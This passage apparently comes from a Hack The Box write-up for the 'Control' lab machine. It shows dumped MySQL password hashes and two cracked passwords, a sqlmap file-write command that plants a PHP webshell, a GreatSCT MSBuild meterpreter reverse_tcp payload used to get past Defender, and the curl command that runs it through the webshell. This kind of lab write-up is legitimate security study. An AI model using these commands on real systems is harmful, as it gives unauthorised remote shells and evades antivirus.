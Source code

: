 ```
[*] hector [1]:
    password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
[*] manager [1]:
    password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
[*] root [1]:
    password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8
```

I'm able to crack the first two hashes:

![](/assets/images/htb-writeup-control/crackstation.png)


- `hector: l33th4x0rhector`
- `manager: l3tm3!n`

## RCE using webshell upload with SQLi

After messing with some of the sqlmap file-read and file-write options, I was able to write files to the upload directory with:

`sqlmap -u "http://control.htb/view_product.php" --data "productId=69" --file-write cmd.php --file-dest 'c:\inetpub\wwwroot\uploads\bobinette.php'`

So I've just uploaded a webshell to the box and can now run commands through PHP:

![](/assets/images/htb-writeup-control/webshell1.png)

Defender is running on this machine so my earlier attempst at uploading a meterpreter compiled EXE file failed and using the PHP meterpreter proved to be somewhat unstable. However I was able to generate an MSbuild XML `meterpreter/reverse_tcp` payload with GreatSCT and get a stable shell.

First, I'll upload the .xml file I've generated:

`sqlmap -u "http://control.htb/view_product.php" --data "productId=69" --file-write 9001.xml --file-dest 'c:\inetpub\wwwroot\uploads\9001.xml'`

Then compile and execute the payload using my webshell:

`curl 10.10.10.167/uploads/bobinette.php?c='C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe%20c:\inetpub\wwwroot\uploads\9001.xml'`

![](/assets/images/htb-writeup-control/shell1.png)

The flag is probably in Hector's home directory but I don't have access to it.

```
meterpreter > ls /users
Listing: /users
===============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2019-11-05 07:34:03 -0500  Administrator
40777/rwxrwxrwx   0     dir   2018-09-15 03:28:48 -0400  All Users
40555/r-xr-xr-x   8192  dir   2018-09-15 02:09:26 -0400  Default
40777/rwxrwxrwx   0     dir   2018-09-15 03:28:48 -0400  Default User
40777/rwxrwxrwx   8192  dir   2019-11-01 05:09:15 -0400  Hector
40555/r-xr-xr-x   4096  dir   2018-09-15 03:19:00 -0400  Public
100666/rw-rw-rw-  174   fil   2018-09-15 03:16:48 -0400  desktop.ini

meterpreter > ls /users/hector
[-] stdapi_fs_ls: Operation failed: Access is denied.
```
